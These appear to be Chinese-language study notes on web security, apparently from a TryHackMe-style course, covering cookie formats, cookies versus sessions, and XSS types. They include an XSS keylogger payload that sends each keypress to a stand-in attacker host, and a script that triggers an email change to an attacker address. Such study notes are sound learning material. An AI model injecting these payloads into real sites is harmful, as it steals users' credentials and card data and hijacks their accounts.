 ### Cookie String Type

Cookie 呈現形式
- 明文
    - Set-Cookie: logged_in=true; Max-Age=3600; Path=/
    - Set-Cookie: admin=false; Max-Age=3600; Path=/
- Hash
    - Set-Cookie: 1d34796b61840f5d3e0de003920e0b93; Max-Age=3600; Path=/
- base 64 編碼
    - Set-Cookie: session=eyJpZCI6MSwiYWRtaW4iOmZhbHNlfQ==; Max-Age=3600; Path=/
        -> {"id":1,"admin":false}

### Cookie & Session

Cookie 常用於網站身分驗證，Set-Cookie 和 Cookie 作為 header 傳送

![image](https://hackmd.io/_uploads/HkjdBzcEa.png)

 | Cookie                                     | Session                                             |
 | ------------------------------------------ | --------------------------------------------------- |
 | 儲存於瀏覽器<br>也儲存伺服器回傳的 Session | 使用者資訊儲存於伺服器<br>伺服器用 Session 身分驗證 |
 | cookie 生成時設定過期資訊(有生命週期)      | 伺服器決定 Session 是否過期                         |
 | 容易被竄改，安全性較低                     | 不易竄改，安全性較高                                | 

### Key Logger
- 將受害者在網頁上的輸入轉發到攻擊者控制的伺服器
- Payload Example : 
    - 如果此 payload 被注入在帳戶登入或輸入信用卡資料的頁面 → 危險
        ```javascript
        <script>
            document.onkeypress = function(e){fetch(
		        'https://hacker.com/log?key=' + btoa(e.key)
	        );}
        </script>
        ```



### Business Logic

- 利用 Business Logic，觸發網站原本的功能，呼叫特定網路資源或 JavaScript 函式
- Payload Example : 
    - 網站本身有一個更改使用者 email 的 JavaScript 函式 user.changeEmail()，攻擊者去觸發它
        ```javascript
        <script>user.changeEmail('attacker@hacker.thm');</script>
        ```


### 常見XSS類型
- 反射型XSS(Reflected XSS)
- 儲存型XSS(Stored Xss)
- DOM型XSS(DOM Based XSS)
